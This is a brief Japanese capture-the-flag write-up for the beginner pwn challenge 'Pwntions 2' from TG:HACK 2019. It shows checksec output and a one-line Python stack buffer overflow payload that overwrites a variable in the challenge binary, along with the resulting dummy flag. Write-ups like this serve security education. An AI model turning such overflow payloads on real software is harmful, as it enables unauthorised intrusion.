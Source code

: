 # [pwn 75pts] Pwntions 2 - TG:HACK 2019
32bitで全部無効です。
```
$ checksec -f pwntion2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   88 Symbols     No	0		8	pwntion2
```

これもCのコードが渡されています。
バッファオーバーフローで変数を書き換えればOKです。

```
$ python -c 'print("A" * 48 + "\x01\x00\x00\x00", end="")' | ./pwntion2 
Test banner


Professor maritio_o:
> Welcome to the second class about stack overflow pwntions!
> Pls don't hesitate to ask questions!

Student:
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Professor maritio_o:
> Excellent! Ten points to your house!
> FLAG{Dummy}
```

# 感想
pwn初心者向けの問題だと思います。
